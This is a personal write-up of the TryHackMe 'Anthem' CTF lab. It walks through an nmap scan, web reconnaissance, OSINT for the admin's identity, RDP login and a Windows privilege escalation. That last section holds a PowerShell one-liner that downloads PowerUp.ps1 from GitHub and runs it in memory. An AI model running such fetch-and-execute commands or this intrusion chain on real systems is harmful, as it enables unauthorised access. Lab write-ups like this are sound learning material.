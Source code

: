 #+TITLE: THM: Anthem
#+DATE: <2023-10-21 10:30>
#+DESCRIPTION: A beginner targeted ctf
#+FILETAGS:  tryhackme ctf

After a long time of not messing around with any CTFs, I decided to
give [[https://tryhackme.com/room/anthem][anthem]] a shot and see how far I could go on my own. 

* Reconnaissance

** Port Scanning
First things first, let's try to get some information about the target
machine, checking all ports and saving the output for future use:
#+NAME: NMAP Scan
#+begin_src bash
sudo nmap -sSV -p- 10.10.201.121 -oA nmap.out -T4
#+end_src

#+NAME: NMAP Output
#+begin_example
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-21 08:34 BST
Nmap scan report for ip-10-10-201-121.eu-west-1.compute.internal (10.10.201.121)
Host is up (0.00045s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
MAC Address: 02:20:2B:0A:0A:AD (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 458.11 seconds
#+end_example

Checking the output we see that there are two services worth noting:
- A web server at 80
- An RDP server at 3389 (the protocol was not known to me, but
  googling it gives us this answer)

Getting some more information from the web server can not hurt.

** Web Analysis
I always like to use burp suite (or zap for that matter), when I first
start interacting with a website. It saves me the trouble of manually
checking the HTML contents of each page (in case I want to do it), and
also maps quite nicely the target host.

- [X] Launch BurpSuite
- [X] Properly set FoxyProxy to burp, allowing us to intercept the traffic
- [X] Turn intercept off
- [X] Visit target machine's website
- [X] Go to Burp/Target, set the given machine as in scope, limiting
  what Burp stores, making for a relatively clutter-free environment
- [X] Start moving

#+begin_note
Using https://github.com/hakluke/hakrawler while passing all the
traffic through Burp's proxy might also be beneficial, but at this
point I like manually checking every page.
#+end_note

*** Random Findings
While randomly clicking everywhere I could find, I got to the page of
a writer (Jane Doe), which included a flag at a suspiciously obvious
location. 

#+caption: A flag :P
[[file:images/20231021_105049_screenshot.png]]


*** Robots.txt, Security.txt, Sitemap.xml
Visiting those files is a must when checking websites (even though the
writer might occasionally forget about them), and ~robots.txt~ did not
disappoint. Aside from giving as a direct /flag/, it showed that the
target host uses the Umbraco CMS, and it's sign-in page is also revealed. 

#+caption: Robots.txt contents
[[file:images/20231021_105217_screenshot.png]]

#+caption: Umbraco Sign-in Page
[[file:images/20231021_105556_screenshot.png]]

Sadly, however, ~security.txt~ and ~sitemap.xml~ turned out to be empty,
lacking any information.

*** Finding the administrator
At this point we have a lot of information about the target system,
yet no information on the administrator (other than the contents of an
article informing us of his passing), so we need to dig a little bit more.

I got relatively stuck here, so I started searching through the pages'
HTML hoping that a comment might reveal their identity. (As you can
see in the images below, after thinking of the possibility that a flag
exists hidden there, I searched with 'thm', to make sure I did not
miss anything).

#+caption: Another random flag found during this stage
[[file:images/20231021_105932_screenshot.png]]

#+caption: Another random flag
[[file:images/20231021_110055_screenshot.png]]

After skimming through the pages and realizing that the information I
wanted is not there, I tried the default credentials on the Umbraco
web portal, hoping that (since its a common misconfiguration) no one
had bothered changing them:

#+caption: No luck
[[file:images/20231021_110556_screenshot.png]]

At this point I seriously considered bruteforcing Jane Doe's RDP
credentials (knowing that her email is ~jd@anthem.com~). I did not,
though, due to this statement in the problem's definition:
#+begin_quote
In this room, you don't need to brute force any login page. Just your preferred browser and Remote Desktop.
#+end_quote

Since there were no input fields, nor parameters to check for
injections and the website seemed like a static one, performing OSINT
for the administrator was the only logical next step:
- I thought I had seen the article "written for him" somewhere, so I
  googled it, and turns out, that in its complete form, refers to
  'Solomon Grundy', which (after checking with THM's answer), turns
  out to be the admin's name
- Their email, asked elsewhere, is easy enough to derive knowing that:
  Jane Doe translates to jd.

* Trying RDP out
We now know the administrator's username, and we have a potential
password, so checking RDP out seems like a good choice: it was.

#+caption: Got the root flag
[[file:images/20231021_112003_screenshot.png]]


#+begin_note
After answering the questions on THM I realized that I had missed one,
presumably hidden within the source code, nice 
#+end_note

#+caption: Completing the last web flag
[[file:images/20231021_112223_screenshot.png]]

* Privilege Escalation
Having limited experience with windows, I relied heavily on
[[https://swisskyrepo.github.io/][PayloadsAllTheThings]], testing this first:

#+NAME: Powersploit's PowerUP
#+begin_src powershell
bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); 
#+end_src

It did not seem to work, and figuring that getting admin rights would
be much simpler since the hint was "it is hidden", I decided to
manually check some of the most common folders I had access to:
- In Documents there was an RDP file hidden, getting my hopes up,
  before I realized that there were no parameters saved on it, meaning
  that it was useless.
- After checking the rest of the hard drive, I saw a hidden folder
  titled backup. Promising

Inside ~backup~ there was a file called restore, which I had no
permission to read, but seeing that I was the owner, I edited its
properties so that I could open it properly:

#+caption: Got a password-like string
[[file:images/20231021_113902_screenshot.png]]

#+begin_quote
Administrator:newlyFoundString
#+end_quote
Seems like a good combination to choose, so I try to view
~Administrator~'s home folder:

#+caption: Final Flag
[[file:images/20231021_114259_screenshot.png]]

'twas good.
